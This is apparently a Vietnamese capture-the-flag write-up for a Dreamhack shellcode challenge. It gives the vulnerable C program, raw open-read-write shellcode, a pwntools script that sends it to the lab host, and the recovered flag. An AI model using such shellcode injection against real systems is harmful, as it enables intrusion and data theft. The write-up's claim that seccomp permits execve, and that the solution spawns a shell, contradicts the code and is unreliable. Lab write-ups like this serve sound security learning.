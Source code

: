 # Decription
![Decription](/images/2025-07-28_07-51.png "Exploit")

## Source

```c
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

### Problem

Ta thấy trong mã nguồn có seccomp_rule_add.
Đây là hàm để thêm 1 số quy tắc vào . Cho phép ta sử dụng/chặn 1 số syscall.
Ta sử dụng seccomp-tools dump để xem các seccomp nào được phép sử dụng:
![Seccomp-tools](images/2025-07-28_08-02.png "Seccomp")

Chỉ cho phép system call hợp lệ là execve (syscall 59) và execveat (syscall 322)
Tức là có thể execve hoặc execveat


"char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);"
Đoạn này sẽ cho phép shellcode có quyền read/write/execve.

-> bài này sử dụng shellcode chiếm shell.

#### Solve

shellcode = \x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
##### Flag
Flag = b'DH{ca562d7cf1db6c55cb11c4ec350a3c0b}

###### Full Script
```c
from pwn import *

context.arch = "amd64"
p = remote("host8.dreamhack.games", 21303)
# p=process('./shell_basic')

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendlineafter('shellcode: ', shellcode)
print(p.recv())

```
